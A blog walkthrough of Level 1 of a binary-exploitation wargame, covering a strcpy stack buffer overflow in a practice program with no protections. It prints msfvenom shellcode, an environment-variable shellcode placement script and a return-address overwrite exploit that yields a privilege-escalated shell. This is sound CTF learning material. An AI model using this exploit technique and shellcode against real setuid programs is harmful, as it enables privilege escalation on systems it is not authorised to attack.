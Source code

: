 ![Logo](/assets/images/belts-white.png)

At one point I _stumbled_  over the **Certified Secure Binary Mastery** challenges. 
They are not terribly difficult and _each one of them has an interesting element_. This makes them _accessible and fun_. 

In this blog posts and the following four I'll go through the [Ensign](https://www.certifiedsecure.com/certification/view/37) levels. As described, these ones deal with _retro exploitation techniques_ like buffer overflows, format strings, off-by-one errors and so on. No recent security mitigations are involved in the Ensign levels (E.g.: ASLR or non-executable stack). Don't worry too much about this yet, because their complexity increases to keep the hackers _in flow_. 

![Ensign](/assets/images/bm1.png)

**I hope it goes without saying that these blog posts shouldn't be used as a way to cheat yourself in any case, but as a learning oportunity. With this in mind, let's begin with _Level 1_**.

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level1@hacking.certifiedsecure.com -p 8266
level1@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally :
```bash
$ checksec.sh --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level1
```

Good signs: as expected NX is disabled and there is no stack canary. Let's verify that the stack is executable:
```
$ readelf -lW level1 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. What about the state of ASLR on the system? Good news again: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:
```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

What we have here is a classic stack-based buffer overflow, caused by overflowing the 16-byte buffer _buf_ using the insecure function _strcpy_, which doesn't do any bounds checking:

```c
#include <stdio.h>                                                                                                 
#include <string.h>

void helloworld(char* name) {
    char buf[16];

    strcpy(buf, name);

    printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
    if (argc != 2) {
        printf("Usage: %s <name>\n", argv[0]);
       
        return -1;
    }

    helloworld(argv[1]);

    return 0;
}
```

## 2 - Exploitation

By overwriting the return address from the function _helloworld_, we can redirect the execution of the program. We'll chose as destination _**a location on the stack containing our shellcode**_. Steps:
* Find the position that overwrites the return address.
* Generate _NULL-free_ shellcode for the correct architecture. Although the machine is 64-bit, the binaries are 32!
* Place the shellcode in an environment variable.
* Find the static address of the environment variable (No ASLR, remember?) and used it conjunction with step 1.

### Control the execution flow
Although  we can generally use tools from Metasploit Framework like _pattern_create_ and _pattern_offset_, in this case it is much simpler. We can just examine stack of the _helloworld_ function in IDA:

![helloworld stack](/assets/images/bm1-2.png)

So at dest+24 we have the saved EBP and at **dest+28** the saved return address. 

### Generate shellcode
We'll do this very easily from Kali. We can generate a payload to execute **/bin/dash** to ensure it will [not drop the SUID privileges](http://stackoverflow.com/questions/13209215/bin-sh-does-not-drop-privileges):
```bash
# msfvenom  -p linux/x86/exec CMD=/bin/dash -e x86/shikata_ga_nai -b '\x00' -f python
```

### Shellcode placement and location
Place the shellcode generated from MSF into a python script (_put-sc.py_ below) and place the output into an environment variable:

```python
buf =  ""                                                                                                          
buf += "\xda\xd7\xba\xb4\x13\x10\x12\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
buf += "\x0c\x31\x55\x18\x83\xed\xfc\x03\x55\xa0\xf1\xe5\x78\xc3\xad"
buf += "\x9c\x2f\xb5\x25\xb2\xac\xb0\x51\xa4\x1d\xb1\xf5\x35\x0a\x1a"
buf += "\x64\x5f\xa4\xed\x8b\xcd\xd0\xe7\x4b\xf2\x20\xd8\x29\x9b\x4e"
buf += "\x09\xca\x3a\xfc\x3d\x12\xea\x51\x34\xf3\xd9\xd6"

print "\x90"*30 + buf
```

```bash
$ export EGG=$(python /tmp/put-sc.py)
```

We still need to find out exactly where on the stack of our level1 binary will the environment variables reside. The easiest way to do this is to add an instruction to print the address of our environment variable and recompile level1.c **_on the target_**:

```c
 printf("EGG address: 0x%lx\n", getenv("EGG"));
 ```
 
 To compile files on the target we need to do it from the /tmp folder, or use a different TMPDIR variable, because we don't have write access in the current home folder, used by gcc for temporary files. Let's say we want to create another directory to be used as temporary folder for compilation:
 
 ```bash
$ mkdir /tmp/me
$ export TMPDIR=/tmp/me                                                                                            
$ gcc -m32 -fstack-protector -z execstack  /tmp/level1-mod.c -o /tmp/level1-mod
 ```
 
 Don't forget to use the same protection mechanisms (none!) as present in the original binary: no stack cookies (_-fnostackprotector_) and executable stack (_-z execstack_).
 
So the static address where the environment variable EGG will be located when running level1 is **0xffffd8c6**:

```bash
$ /tmp/level1-mod aaaaa
EGG address: 0xffffd8c6
Hello aaaaa!
```
## 3 - Profit

The following script generates the payload:

```python
#!/usr/bin/python                                                                                                  

import struct

# Address of environment variable containing shellcode
# Obtain this from findeggaddr.c
ret =  struct.pack("<L", 0xffffd8c6)

print "A" * 24 + ret*2
```

And we're in:
```bash
$ /levels/level1 $(python /tmp/expl.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAA������!
$ id
uid=1002(level1) gid=1002(level1) euid=1003(level2) groups=1003(level2),1002(level1)
$ /home/level2/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery ensign)
   * the exploit

You can now start with level2. If you want, you can log in
as level2 with password [REDACTED]
```
